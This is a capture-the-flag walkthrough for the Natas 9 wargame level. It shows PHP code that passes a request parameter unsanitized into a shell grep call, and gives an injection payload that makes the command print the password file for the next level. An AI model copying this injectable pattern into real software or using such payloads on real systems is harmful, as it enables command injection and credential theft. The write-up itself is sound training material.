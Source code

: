# Natas 9 
The natas9 level starts with a prompt saying *Find words containing:* on examing the source code:
```
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```

we see that its basically doing a grep command in bash to get all the words from a file called *dictionary.txt*.
All we have to do is make it print contents of */etc/natas_webpass/natas10* to get to next level. we can use some regular expressions to solve it. I used the following command to solve it:
```
"^" /etc/natas_webpass/natas10 #
```

Here we are injecting user controlled variable and essentially making the resulting command to be:
```
grep -i "^" /etc/natas_webpass/natas10 #dictionary.txt
```
1. # -> this in bash in is comment
1. ^ -> this is regex and meaning any word or string that starts, essentially meaning all the words or strings.

I have written a python script to do the essentially the same.
